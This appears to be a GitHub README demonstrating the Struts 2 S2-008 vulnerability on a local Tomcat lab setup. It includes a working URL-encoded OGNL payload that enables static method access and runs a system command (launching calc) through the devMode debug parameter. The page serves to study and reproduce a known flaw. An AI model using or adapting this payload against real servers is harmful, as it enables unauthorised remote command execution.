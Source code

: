 # S2-008 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.17`

Problem: When `devMode` is on, the hacker can pass in `ognl` expressions for execution.

## Environment

Struts2 version: `struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC



![devmode](devmode.jpg)

## Payload

- open `calc.exe`

  ```java
  http://localhost:8080/s2_008_war_exploded/devmode.action
  ?debug=command
  &expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29)
  ```


## Reference

- [struts2最近几个漏洞分析&稳定利用payload](http://drops.xmd5.com/static/drops/papers-902.html)


* [S2-008](https://cwiki.apache.org/confluence/display/WW/S2-008)

